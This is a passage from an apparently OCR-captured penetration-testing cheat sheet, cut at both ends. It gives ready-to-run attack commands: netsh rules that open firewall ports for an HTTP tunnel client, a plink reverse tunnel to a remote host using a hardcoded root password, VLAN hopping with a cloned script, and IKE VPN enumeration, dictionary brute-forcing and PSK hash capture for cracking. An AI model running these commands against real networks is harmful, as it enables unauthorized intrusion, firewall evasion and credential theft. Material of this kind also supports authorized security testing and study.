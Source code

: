    -   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    -   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    -   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    -   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    -   Start the http tunnel client  
    
         `httptunnel_client.exe`

    -   Create HTTP reverse shell by connecting to localhost port 3000  
    
        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

-   VLAN Hopping

    -   ```bash
        git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh
        ```
        

-   VPN Hacking

    -   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`

    -   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    -   Use IKEForce to enumerate or dictionary attack VPN servers:  
    
        `pip install pyip`  
        
        `git clone https://github.com/SpiderLabs/ikeforce.git  `
        
        Perform IKE VPN enumeration with IKEForce:  
        
        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic  `
        
        Bruteforce IKE VPN using IKEForce:  
        
        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1  `
        Use ike-scan to capture the PSK hash:  
        
        ```bash
        ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example\_group -P hash-file.txt TARGET-IP
        ```
        Use psk-crack to crack the PSK hash  
        